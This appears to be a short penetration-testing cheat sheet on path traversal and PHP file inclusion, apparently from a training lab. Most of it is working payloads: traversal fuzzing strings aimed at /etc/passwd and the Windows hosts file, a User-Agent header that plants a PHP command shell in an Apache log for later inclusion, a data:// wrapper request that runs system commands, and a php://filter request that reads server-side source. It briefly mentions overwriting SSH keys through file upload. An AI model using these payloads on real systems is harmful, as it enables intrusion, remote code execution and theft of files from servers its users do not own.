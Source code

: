 ### Path Traversal
#### Fuzzing

```
#Forward Slashes
../../../

#Backward Slashes
\..\..\..\

#URL Encoding
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/
```


```
#Linux File
/etc/passwd

#Windows File
C:\Windows\System32\drivers\etc\hosts
```

### File Inclusion
#### Log Poisoning

```
#Visit the log and observe what information is logged from where. Can you inject into it?
#Example Windows Host Running Apache / PHP Stack.
1. User-Agent: <?php echo system($_GET['cmd']); ?>
2. http://192.168.187.193/meteor/index.php?page=../../../../../../../../../xampp/apache/logs/access.log&cmd=dir
```
#### PHP Wrappers
##### Data

```
#allow_url_include must be set. This can be checked in the phpinfo.php file.
#This can execute commands directly.
1. curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<%3fphp%2520echo%2520system('uname+-a')%3b%3f>"
```
##### Filter

```
#Can use this to view contents of php files that are normally executed instead.
1. curl "http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=../../../../../var/www/html/backup.php"
```

#### File Upload

```
#Sometimes it is possible to overwrite files with our own.
#Example fileupload overwriting SSH key to our own.
```
![[Pasted image 20231101191427.png]]